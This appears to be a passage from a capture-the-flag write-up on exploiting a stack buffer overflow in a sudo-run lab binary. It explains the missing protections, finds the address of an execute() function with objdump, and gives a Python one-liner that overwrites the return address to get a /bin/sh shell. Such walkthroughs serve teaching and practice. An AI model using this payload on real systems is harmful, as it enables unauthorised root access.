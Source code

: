 ### **Key Security Loopholes 🔽**

1. **Buffer Overflow Vulnerability**:
    
    - `fgets()` reads 256 bytes into a 64-byte buffer
    - No bounds checking allows overwriting adjacent stack data
    - Return address can be overwritten to redirect execution
2. **Control Flow Hijacking**:
    
    - By overflowing the buffer, we overwrite the return address
    - Redirect execution to `execute()` instead of normal return
    - `execute()` provides a shell with `/bin/sh`
3. **Exploitation Steps**:
    
    - Send 72 bytes of padding (64 bytes buffer + 8 bytes RBP)
    - Followed by address of `execute()` in little-endian format
    - When `vuln()` returns, jumps to `execute()` instead of caller
4. **Why It Works**:
    
    - No stack canaries (no protection against buffer overflow)
    - No ASLR (addresses are predictable)
    - No NX bit (stack is executable)


So here is a python one liner code that does the task 🔻

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\xd6\x11\x40\x00\x00\x00\x00\x00")'; cat) | sudo /home/shinosawa/deepseek
```
{: .nolineno }

(Replace `\xd6\x11\x40\x00\x00\x00\x00\x00` with your address in little-endian)

But before we run it, I need to **find exact address of the execute() function to replace it**🔻

```bash
homelab:~$ objdump -d /home/shinosawa/deepseek | grep execute
0000000000401266 <execute>:
homelab:~$
```
{: .nolineno }

Now place the address in a little endian format and then into the python one liner and to convert it to Little Endian here is the steps 🔻

##### **Step 1: Understand Little-Endian Format**:

In 64-bit systems, addresses are stored as 8 bytes. Little-endian means:

- Least significant byte comes first
- Most significant byte comes last

##### **Step 2: Convert 0x401266 to Little-Endian**:

1. **Full 64-bit representation**: `0x0000000000401266`
2. **Break into bytes** (from least to most significant):
```
66 12 40 00 00 00 00 00
```
{: .nolineno }
3. **Little-endian byte sequence**: `\x66\x12\x40\x00\x00\x00\x00\x00`
